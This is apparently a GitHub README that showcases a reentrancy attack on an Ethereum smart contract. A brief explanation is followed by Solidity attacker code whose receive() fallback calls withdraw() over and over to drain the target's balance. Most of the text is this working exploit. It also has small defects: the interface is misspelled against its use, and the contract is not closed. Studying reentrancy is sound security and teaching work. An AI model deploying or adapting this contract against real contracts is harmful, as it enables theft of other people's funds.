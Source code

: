 # reentrancy-attack
shocase of reentrancy attack 
A reentrancy attack is essentially us creating another smart contract to interact with the target contract and call a function before the target contract has time to process our previous transaction. We first send an amount of eth to it and in the same function withdraw. 
Afterwards we withdraw again before the target contract has time to process the transaction. In the process we need a fallback function to use within the time frame of sending money and receiving money.
We use this fallback function so we can restart the process and the target contract fails to update the balance, allowing us to withdraw funds which do not belong to us.



interface reentancy {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract attack {
    address public owner;
    reentancy targetContract;
    uint targetValue = 1000000000000000;

    constructor(address _targetAddr) public {
        targetContract = reentrancy(_targetAddr);
        owner = msg.sender;
    }

    function balance() public view returns (uint) {
        return address(this).balance;
    }

    function doublefunction() public payable {
        require(msg.value >= targetValue);
        targetContract.donate.value(msg.value)(address(this));
        targetContract.withdraw(msg.value);
    }

    function withdrawAll() public returns (bool) {
        require(msg.sender == owner, "");
        uint totalBalance = address(this).balance;
        (bool sent, ) = msg.sender.call.value(totalBalance)("");
        require(sent, "");
        return sent;
    }

    receive() external payable {
        uint targetBalance = address(targetContract).balance;
        if (targetBalance >= targetValue) {
          targetContract.withdraw(targetValue);
        }
    }
